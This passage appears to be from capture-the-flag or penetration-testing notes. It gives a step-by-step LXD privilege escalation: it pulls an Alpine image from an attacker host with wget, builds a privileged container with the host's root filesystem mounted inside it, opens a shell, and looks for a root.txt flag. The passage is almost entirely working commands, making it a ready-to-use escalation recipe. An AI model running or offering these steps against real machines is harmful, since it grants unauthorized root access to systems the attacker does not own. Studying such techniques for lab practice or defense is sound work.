 **Steps to be performed on the victim machine:**

```bash
# Download the alpine image. Go for instance to the /tmp folder and, if you have started the apache2 service in the attacker machine, do a wget:
wget http://AtackerIP//alpine-v3.17-x86_64-20230508_0532.tar.gz

# After the image is built it can be added as an image to LXD as follows:
lxc image import ./alpine-v3.17-x86_64-20230508_0532.tar.gz --alias myimage

# List available images:
lxc image list

# Initiate your image inside a new container
lxc init myimage ignite -c security.privileged=true

# Mount the container inside the /root directory
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true

# Initialize the container
lxc start ignite

# Launch a shell command in the container
lxc exec ignite /bin/sh
```

Now, we should be root:

```bash
whoami
cd /
find . -name root.txt 2>/dev/null
```








